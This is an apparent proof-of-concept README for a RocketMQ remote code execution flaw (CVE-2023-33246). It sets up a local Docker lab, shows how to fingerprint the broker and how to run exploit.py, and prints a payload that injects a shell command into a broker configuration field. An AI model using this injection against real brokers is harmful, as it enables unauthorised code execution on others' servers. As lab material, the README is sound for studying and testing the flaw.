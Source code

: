 ## RocketMQ RCE (CVE-2023-33246)

### Build the lab

```bash
$ docker-compose -f lab/docker-compose.yml up --build -d

[+] Running 2/2
 ✔ Container rmqnamesrv  Started
 ✔ Container rmqbroker   Started 
```

### Lab description

Setup with static IPs:

- Host: 10.255.0.1

- Nameserver: 10.255.0.2

Using `check.py` to check the IP of Broker through Nameserver:

```bash
$ python3 check.py 10.255.0.2 9876

Broker address: 10.255.0.xxx:yyyy
Broker version: V4_9_5
```

Using `exploit.py` to exploit:

```bash
$ python3 exploit.py 10.255.0.xxx yyyy '<command>'

b'\x00\x00\x00\xbc\x00\x00\x00`{"code":25,"flag":0,"language":"JAVA","opaque":0,"serializeTypeCurrentRPC":"JSON","version":403}filterServerNums=1\nrocketmqHome=-c $@|sh . echo <command>;\n'
b'\x00\x00\x00c\x00\x00\x00_{"code":0,"flag":1,"language":"JAVA","opaque":0,"serializeTypeCurrentRPC":"JSON","version":403}'
```
